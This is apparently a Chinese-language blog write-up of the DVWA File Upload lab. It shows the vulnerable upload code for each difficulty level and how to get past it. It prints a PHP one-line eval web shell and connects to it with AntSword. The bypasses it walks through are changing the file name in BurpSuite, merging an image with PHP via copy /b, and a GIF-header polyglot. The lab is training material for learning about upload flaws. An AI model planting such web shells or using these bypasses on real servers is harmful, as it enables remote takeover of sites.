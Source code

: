 ```yaml
---

title: DVWA File Upload
date: 2020-12-21 10:01:48
categories: dvwa
tags: 
- file
---
```


## 文件上传

### low 级别

将 php 一句话木马, 保存为 php 文件上传

```php
<?php @eval($_POST['attack']) ?>
```

![file-upload-low1](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/file-upload-low1.jpg)

<!-- more -->

通过 [蚁剑](https://github.com/AntSwordProject/) 测试连接, 连接密码为 `$_POST` 的内容

![file-upload-low2](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/file-upload-low2.jpg)

连接成功可以获取目录结构, 并且可以使用受限制的 shell (apache权限)

![file-upload-low3](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/file-upload-low3.jpg)

![file-upload-low4](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/file-upload-low4.jpg)

### medium 级别

source

```php
// Is it an image?
if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
    ( $uploaded_size < 100000 ) ) {
    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
else {
    // Invalid file
    echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
}
```

限制了上传文件的类型, 只能上传 JPEG 或 PNG 的图片格式

![file-upload-medium1](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/file-upload-medium1.jpg)

将 1.php 重命名为 2.jpg, 用 BurpSuite 截断上传, 修改提交的数据

![file-upload-medium2](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/file-upload-medium2.jpg)

将请求数据的文件名 2.jpg 修改为 2.php, 再 Forward 转发, 即可将 2.jpg 在服务器端重命名为 2.php

![file-upload-medium3](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/file-upload-medium3.jpg)

用蚁剑测试 2.php 连接, 可以成功连接

![file-upload-medium4](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/file-upload-medium4.jpg)

### high级别

high 级别限制了文件后缀, 并且使用 `getimagesize` 读取图片信息, 确保上传的文件是图片

**source**

```php
// Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
```

可以使用 copy 命令将真实图片和 php 合并, logo.jpg 为真实图片

```cmd
C:\>copy logo.jpg/b + 1.php 3.jpg
logo.jpg
1.php
已复制         1 个文件。
```

![file-upload-high1](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/file-upload-high1.jpg)

合成后的 png 文件可以成功上传

![file-upload-high2](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/file-upload-high2.jpg)

使用 **GIF98** 也可以, 将以下内容另存为 .jpg 或 .png 文件, 也可以上传成功

```php
GIF98
<?php @eval($_POST['attack']) ?>
```

需要配合 File Inclusion 的 url 使用

![file-upload-high3](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/file-upload-high3.jpg)

需要使用 BurpSuite 获取 Cookie 并添加到请求头才可以连接成功

![file-upload-high4](https://cdn.jsdelivr.net/gh/yzbtdiy/images@main/security/dvwa/file-upload-high4.jpg)

### impossible 级别

添加了 md5 加密, 文件名不可控

```php
// Where are we going to be writing to?
    $target_path   = DVWA_WEB_PAGE_TO_ROOT . 'hackable/uploads/';
    //$target_file   = basename( $uploaded_name, '.' . $uploaded_ext ) . '-';
    $target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
    $temp_file     = ( ( ini_get( 'upload_tmp_dir' ) == '' ) ? ( sys_get_temp_dir() ) : ( ini_get( 'upload_tmp_dir' ) ) );
    $temp_file    .= DIRECTORY_SEPARATOR . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
```